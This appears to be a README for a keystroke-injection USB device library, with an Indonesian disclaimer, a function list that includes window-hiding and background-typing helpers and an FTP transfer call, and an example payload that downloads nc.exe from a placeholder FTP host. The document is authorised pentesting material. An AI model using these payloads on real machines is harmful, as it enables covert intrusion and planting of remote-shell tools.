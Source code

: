 <hr>
<h5>Orbit Digi USB, More info => http://www.orbitsolutions.com/</h5>
<hr>

<b>DISCLAIMER</b>: Orbit Digi USB dirancang untuk digunakan dalam pengujian dan penemuan kekurangan pada jaringannya sendiri dengan tujuan memperbaiki kekurangan yang terdeteksi, <b>JANGAN</b> gunakan program di jaringan atau perangkat yang Anda tidak memiliki izin, kami tidak bertanggung jawab atas kerusakan yang Anda timbulkan dengan menggunakan perangkat lunak atau perangkat keras ini.
<hr/> 


OrbitKeyboard Function List
----
<b>pressAndRelease</b> = Press a key or combination of keyboard and release. usage : pressAndRelease(key_ALT, key_TAB)</br>
<b>press</b> = Press a key or combination of keyboard without release. usage : press(key_ALT, key_TAB)</br>
<b>release</b> = release a key or combination of keyboard. usage : release()</br>
<b>echo</b> = write a text without enter/newline/return. usage : echo("text")</br>
<b>echoEnter</b> = write the text and enter/newline/return. usage : echoEnter("text")</br>
<b>sleep</b> = delay or sleep for "n" milisecond. usage : sleep(5)</br>
<b>winRun</b> = open Windows Run and type a Windows command. usage : winRun("command")</br>
<b>hideWindow</b> = hide an active window not minimize. usage : hideWindow()</br>
<b>writeOnBackground</b> = make the window is not visible, and keep writing. usage : writeOnBackground("text")</br>
<b>minimizeWindow</b> = minimize an active window. usage : minimizeWindow()</br>
<b>winFTP</b> = download a file from FTP server or upload file to FTP server. usage : winFTP("put/get/mput/mget","FTPusername","FTPpassword","FTPhost","FTPport","filename")</br>
<b>done</b> = Turn the LED off when payload is loaded. usage : done()</br>


Example Payload
----
```c
#include <OrbitKeyboard.h>

OrbitSolutionsKeyboard en;

void setup()
{
  //Inisialisasi program
  en.init(1500);
  //Download single file
  en.winFTP("get","user_ftp","pass_ftp","host_ftp", "port_ftp","nc.exe");
}

void loop() {
  
}


```
[More Payload](https://github.com/EthicNinja/Ninjutsu-USB/tree/master/libraries/NinjaKeyboard/examples)
